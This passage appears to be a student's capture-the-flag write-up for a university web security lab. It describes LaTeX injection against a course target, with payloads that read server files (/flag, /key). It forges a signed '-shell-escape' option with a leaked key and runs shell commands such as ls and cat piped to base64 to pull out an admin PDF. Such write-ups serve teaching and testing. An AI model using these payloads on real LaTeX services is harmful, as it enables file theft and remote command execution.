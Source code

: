   ```python
              brute_force(code)
  ```

### letter.quoccabank.com

- Latex Injection - Looking at the source code `/source`, there could be a flag in the `/flag` route. We can use latex to inject a payload which can open the file in the PDF.

  - `\input{/flag}` - idea from https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
  - COMP6443{IWonderWhatThatDebugOptionIsFor}

- Latex Command Injection

  - Injecting `\input{/key}` (based on looking at the source code) as the payload gives us the debug key `imagineUsingW0rd`

  - When researching more about Latex, it would seem that we can inject a payload to execute commands. Using the `-shell-escape` flag, this allows us to run external commands within Latex, meaning that we could execute bash commands as well.

    - https://0day.work/hacking-with-latex/
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
    
  - We would need to inject this flag somehow. Looking at the source code on `/source`, it would seem that the debug input can be used as the flag, however we would need to sign the input first with the we found earlier.

    ```python
    s = Signer("imagineUsingW0rd")
    print(s.sign("-shell-escape").decode('utf-8'))
    
    # prints
    # -shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM
    ```

  - First intuition is to check the directories inside the system using this payload as the input:

    ```latex
    \input{|"echo ""; ls / | base64"}
    ```

    - NOTE: We are encoding it into base64 to avoid any Latex compilation issues

    Using this, there seems to be a file called `admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf`

  - We can inject this payload now to get us the base64 contents of the file

    ```latex
    \input{|"echo ""; cat /admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf | base64"}
    ```

    Using [CyberChef](gchq.github.io/CyberChef), we can decode the base64 encoding and extract the pdf to find the flag.

